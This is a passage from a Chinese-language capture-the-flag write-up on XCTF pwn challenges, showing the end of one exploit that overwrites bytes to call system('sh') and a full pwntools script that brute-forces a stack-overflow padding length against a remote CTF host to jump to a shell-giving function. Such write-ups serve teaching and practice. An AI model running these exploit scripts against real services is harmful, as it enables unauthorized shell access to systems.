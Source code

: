 ```python
	res.sendline(str(num))
change(0x84, 0x50)
change(0x85, 0x84)
change(0x86, 0x04)
change(0x87, 0x08)
change(0x8c, 0x87)
change(0x8d, 0x89)
change(0x8e, 0x04)
change(0x8f, 0x08)
res.sendline('5')
res.interactive()
```

前四个change是调用system函数，后四个是传入参数"sh"。

虽然查到的保护机制并没有开启PIE，但是栈地址仍然是随机的。程序运行起来看到的才是真阿。

# warmup

*\*简单的盲打*

第一次认真做盲pwn，之前在比赛中尝试过但没有做出，相比之下这道题确实比较简单。

nc看一下

![nc](https://n0p3.oss-cn-beijing.aliyuncs.com/Blog/XCTF-Pwn-Advance/warmup/%E6%88%AA%E5%B1%8F2020-07-14%20%E4%B8%8B%E5%8D%889.37.41.png)

给了我们一个地址，应该是执行这个函数就能get shell。

盲pwn，输了%d测试没有格式化字符串漏洞，估计就是栈溢出了。

暴破exp：

```python
from pwn import*
Target=0x40060d
#context.log_level='debug'
def Attack(PaddingLen,bit):
    try:
        res=remote("220.249.52.133",39150)
        res.recvuntil('>')
        if bit==32:
            payload='a'*PaddingLen+p32(Target)
        else:
            payload='b'*PaddingLen+p64(Target)
        res.sendline(payload)
        ret=res.recv()
        if len(ret)>0:
            print(ret)
        else:
            res.interactive()
    except:
        res.close()
   print("Go on")
for i in range(100):
    Attack(i,32)
    Attack(i,64)
print("Finish")

```
